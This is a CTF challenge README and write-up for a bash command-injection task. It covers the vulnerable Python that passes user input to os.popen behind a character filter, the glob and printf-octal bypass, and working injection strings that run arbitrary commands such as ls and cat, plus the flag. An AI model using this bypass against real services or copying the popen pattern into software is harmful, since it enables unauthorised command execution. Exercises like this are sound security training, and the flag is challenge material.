# Bashing your spirit foods
Testing on bash injection knowledge

<i>Creator - @Platy</i>

## Category
Pwn

## Question
>You are not yourself when you are hungry. Have a CTF challenge and stop <i>bashing</i> people up.
>
>Connect via `nc 127.0.0.1 25000`

### Hint
`I hate needles`

## Setup Guide
Do `bash start.sh` and do `docker start bashing`

## Distribution
None.

## Solution
This challenge tests on bash injection.
```
Foods available
[n]achos
[f]ishies
> 
```
If we try to enter any other letters besides `n` or `f`, we will get:
```
Sorry, but we do not serve these here. Maybe next time!
```
When we try to get `n` for nachos, we get this:
```
  _   _            _               
 | \ | |          | |              
 |  \| | __ _  ___| |__   ___  ___ 
 | . ` |/ _` |/ __| '_ \ / _ \/ __|
 | |\  | (_| | (__| | | | (_) \__ \
 |_| \_|\__,_|\___|_| |_|\___/|___/

Hope you enjoy!
sh: 1: n: not found
```
Same goes when we type `f` except we get 'Fishies' instead of 'Nachos'.

We get `sh: 1 n: not found`. It runs a shell with the input as the command. For example, if we entered `cat /etc/passwd`, the output will be printed back. However, we cannot use such a enter that because it contains other letters besides `n` or `f`. When we try `nnnnnn`, it shows `sh: 1: nnnnnn: not found`.

First, we should try using cat to view the contents of all the files. But how can we send cat using only `n` or `f`? It turns out after trying many different characters, it accepts special characters `!@#$%^*()[]{};',.` etc.

So we can use special characters and the letters `n` and `f`. Now we're getting somewhere. Unix has autocompletion functions. Typing out `cat *` well expand to `cat <filename>`. The asterisk represents any number of characters. The question marks represents only one character.

So by inputting `/??n/??? ./*`, we manage to view all the files in the current directory. This reveals the python script and shows what it is actually doing

```python
def getFlag():
	input = raw_input('''Foods available
[n]achos
[f]ishies
> ''')
	if (re.findall('[0-9a-eg-mo-zA-Z]',input) == []):
		if input == 'n':
			nachos()
		elif input == 'f':
			fish()
		print 'Hope you enjoy!'
		print os.popen(input).read()
	else:
		print 'Sorry, but we do not serve these here. Maybe next time!'
```

We can now see that it filters out `[0-9a-eg-mo-zA-Z]`.

By using autocompletition again, we can use `printf` to output the necessary characters to the file.

Locate `printf` by using `/*/??n/???n?f`

Functions can be created in bash `functionName(){ function; }`. By using this method we can create a print function `n(){ /*/??n/???n?f ${@}; };` where `${@}` represents the parameters passed to the print function

We can use octal to print out characters. All we need now is to be able to print numbers without actually printing numbers.

`${#}` counts the number of arguments specified to the print function. Using the previously declared function `n`, we can use it to create a new function `f(){ n ${#}; };`

Now we can specify any number we want and by extension, whatever string we want. This prints out 'a' because the octal for 'a' is '141'. Therefore, there are 3 function `f` with 1, 4 and 1 as arguments respectively:
```bash
n(){ /*/??n/???n?f ${@}; }; f(){ n ${#}; };n $(n \\\\`f "" ; f "" "" "" "" ; f "" ; `;)
```

We can add another `$()` that acts like an 'eval' function which allows us to run whatever command we like. You can run any command with nothing more than 'n', 'f' and a bunch of special characters!

For example, `ls` becomes this:
```bash
n(){ /*/??n/???n?f ${@}; }; f(){ n ${#}; };$(n $(n \\\\`f "" ; f "" "" "" "" "" ; f "" "" "" "" ; `;n \\\\`f "" ; f "" "" "" "" "" "" ; f "" "" "" ; `;))
```

There is a generator `solution.py` in the solution folder to generate the commands.

Basically, we have shell access with a very troublesome way to run commands.

We can now use `ls -la` to find if there are any interesting files.

We can see this file called `thisisaverylongflagbutineedittobethislongsothatpeoplecannotbruteforceit.txt`

Cat the file and get the flag

Final command is in `solution.txt` in the solution folder.

Phew! That was very lengthy and probably a lot to absorb.

### Flag
`GCTF{b45h1n6_15_b4d_f0r_h34l7h}`

## Distribution
No files to be distributed

## Credits
33c3 ctf - 2016

Misc.

hohoho - 350pts

## Recommended Reads
None.

